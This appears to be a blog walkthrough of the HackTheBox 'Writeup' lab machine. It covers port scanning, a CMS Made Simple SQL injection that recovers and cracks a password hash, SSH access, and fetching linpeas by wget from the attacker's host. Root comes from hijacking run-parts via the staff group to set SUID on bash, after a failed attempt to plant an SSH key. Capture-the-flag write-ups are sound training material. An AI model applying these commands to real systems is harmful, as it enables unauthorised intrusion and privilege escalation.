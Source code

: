 ```yaml
---
title: "Writeup"
date: 2025-08-12 14:10:00 +0500
categories: [Boxes]
tags: [HTB, Box, Linux, Easy, SQLi, CMS Made Simple, pspy, Path Hijacking, SUID]
---
```


## Reconnaissance

### Port Discovery

```bash
sudo nmap -PN -sC -sV -oN writeup 10.10.10.138
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-12 14:14 PKT
Nmap scan report for 10.10.10.138
Host is up (0.090s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
| http-robots.txt: 1 disallowed entry 
|_/writeup/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.61 seconds
```

### Web Enumeration

Let's interact with the web server on port 80. 

![alt text](/assets/images/writeup-web.png)

From nmap scan, we can see there is a robots.txt file that disallows access to `/writeup/`. Let's check it out.

There are 3 writeups available. They are fetched with the query: `http://10.10.10.138/writeup/index.php?page=ypuffy`

On viewing the page source of `/writeup/index.php`, we see:

```html
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

#### Version Detection

CMS Made Simple 2019 was used. From CMS Made Simple website: [Website](https://www.cmsmadesimple.org/downloads/cmsms)
we can try to understand the structure of the CMS and how it works. Also during my search I came across an SQLi.

[SQLi CMS Made Simple](https://www.exploit-db.com/exploits/46635)

If we go to 
`http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/`
we can understand the structure of CMS. 

![alt text](/assets/images/writeup-cms.png)

We can confirm the existence of admin directory. But it requires auth. `http://10.10.10.138/writeup/admin`

If we go to: `http://10.10.10.138/writeup/doc/CHANGELOG.txt` we can confirm the version.

CMS Made Simple - Version 2.2.9.1

### Exploitation

The exploit we came across supports this version.

[Exploit](https://www.exploit-db.com/exploits/46635)

The script requires Python2, pip2 (for module termcolor). Wait once the script starts running.

```bash
python2 exploit.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807lp
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43z
```

However, the password is not in correct MD5 format. It is not 32 characters long. We will run the script a few more times. Now we have a different salt and password. After running the script for the 3rd time we get:

![alt text](/assets/images/writeup-password.png)

### Hashcat

`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807`

`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9`

## Foothold

### SSH

Let's try SSH. 

```bash
ssh jkr@10.10.10.138   
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ED25519 key fingerprint is SHA256:TRwEhcL3WcCSS2iITDucAKYtASZxNYORzfYzuJlPvN4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ED25519) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 25 11:04:00 2023 from 10.10.14.23
jkr@writeup:~$ 
```

We don't have curl on the victim machine to transfer linpeas. 

### wget

Let's use wget to download linpeas.

```bash
wget http://10.10.16.30/linpeas.sh
--2025-08-12 06:48:07--  http://10.10.16.30/linpeas.sh
Connecting to 10.10.16.30:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 956174 (934K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                          100%[=================================================================================================================>] 933.76K   839KB/s    in 1.1s    

2025-08-12 06:48:09 (839 KB/s) - ‘linpeas.sh’ saved [956174/956174]
```

LinPEAS didn't get us much information.

```bash

jkr@writeup:~$ ss -tulnp
Netid  State      Recv-Q Send-Q                                                       Local Address:Port                                                                      Peer Address:Port              
udp    UNCONN     0      0                                                                        *:68                                                                                   *:*                  
tcp    LISTEN     0      128                                                                      *:22                                                                                   *:*                  
tcp    LISTEN     0      80                                                               127.0.0.1:3306                                                                                 *:*                  
tcp    LISTEN     0      128                                                                     :::22                                                                                  :::*                  
tcp    LISTEN     0      511                                                                     :::80                                                                                  :::*
```

Let's enumerate MySQL. Our current user can't access mySQL. From LinPEAS I also observed that the current user is in a unique group. 

## Privilege Escalation

```bash
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

Let's check what the staff group does on debian. 

From: [SystemGroups](https://wiki.debian.org/SystemGroups)

staff: Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.

Basically if we are able to find any binary that runs without calling it's absolute path and is located inside `/usr/bin` we can override that binary to either add a root user, create an ssh key for root user, or set suid on bash.

Transfer pspy, run it. SSH as jkr again and check if any process runs without calling the absolute path.

```bash
2025/08/12 07:20:28 CMD: UID=0     PID=1      | init [2]   
2025/08/12 07:20:58 CMD: UID=0     PID=20873  | sshd: [accepted] 
2025/08/12 07:20:58 CMD: UID=0     PID=20874  | sshd: [accepted]  
2025/08/12 07:21:01 CMD: UID=0     PID=20875  | /usr/sbin/CRON 
2025/08/12 07:21:01 CMD: UID=0     PID=20876  | /usr/sbin/CRON 
2025/08/12 07:21:01 CMD: UID=0     PID=20877  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2025/08/12 07:21:12 CMD: UID=0     PID=20878  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/08/12 07:21:12 CMD: UID=0     PID=20879  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/08/12 07:21:12 CMD: UID=0     PID=20880  | run-parts --lsbsysinit /etc/update-motd.d 
2025/08/12 07:21:12 CMD: UID=0     PID=20881  | uname -rnsom 
2025/08/12 07:21:12 CMD: UID=0     PID=20882  | sshd: jkr [priv]
```

`run-parts` and `uname` are two binaries that run without calling their absolute path. We can override either. 

I tried the SSH path and adding a user path however, they both didn't seem to work.

This is the run-parts binary under `/usr/local/bin`:

```bash
#!/bin/bash

touch /tmp/test
mkdir ~/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDyrUNppv/urjkY2LsG9OPcV/WcMOUjXFsEQiYpNnt+t root@vm-kali'
>> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

I then went for setting an SUID on bash:

```bash
jkr@writeup:~$ touch /usr/local/bin/run-parts
jkr@writeup:~$ echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
jkr@writeup:~$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
```

To trigger the run-parts binary be sure to SSH as jkr again.

---
